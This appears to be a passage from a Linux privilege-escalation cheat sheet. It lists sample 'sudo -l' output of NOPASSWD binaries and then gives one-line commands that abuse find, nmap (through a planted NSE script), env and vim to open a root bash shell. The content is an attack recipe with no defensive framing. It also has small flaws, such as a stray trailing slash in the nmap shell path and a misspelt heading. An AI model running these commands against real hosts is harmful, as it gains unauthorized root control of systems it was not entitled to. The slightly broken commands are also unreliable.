 Sudo -l 

What binaries can we execute with Sudo?

Example Output

User www-data may run the following commands on <hostname>

- (root) NOPASSWD: /usr/bin/find
- (root) NOPASSWD: /usr/bin/nmap
- (root) NOPASSWD: /usr/bin/env
- (root) NOPASSWD: /usr/bin/vim
- (root) NOPASSWD: /usr/bin/awk
- (root) NOPASSWD: /usr/bin/perl
- (root) NOPASSWD: /usr/bin/python
- (root) NOPASSWD: /usr/bin/less
- (root) NOPASSWD: /usr/bin/man
- (root) NOPASSWD: /usr/bin/ftp
- (root) NOPASSWD: /usr/bin/socat
- (root) NOPASSWD: /usr/bin/zip
- (root) NOPASSWD: /usr/bin/gcc
- (root) NOPASSWD: /usr/bin/docker
- (root) NOPASSWD: /usr/bin/env
- (root) NOPASSWD: /usr/bin/MySQL
- (root) NOPASSWD: /usr/bin/ssh
- (root) NOPASSWD: /usr/bin/tmux
- (root) NOPASSWD: /usr/bin/pkexec
- (root) NOPASSWD: /usr/bin/rlwrap
- (root) NOPASSWD: /usr/bin/xargs
- (root) NOPASSWD: /usr/bin/anansi_util
- (root) NOPASSWD: /usr/bin/apt-get
- (root) NOPASSWD: /usr/bin/flask run
- (root) NOPASSWD: /usr/bin/apache2
- (root) NOPASSWD: /usr/bin/wget


Absuing Sudo binaries to gain root
----------------------------------------------------
find
```
sudo find / etc/passwd -exec /bin/bash \;
```

Nmap
```
echo "os.execute('/bin/bash/')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

Env
```
sudo env /bin/bash
```

Vim
```
sudo vim -c ':!/bin/bash'
```
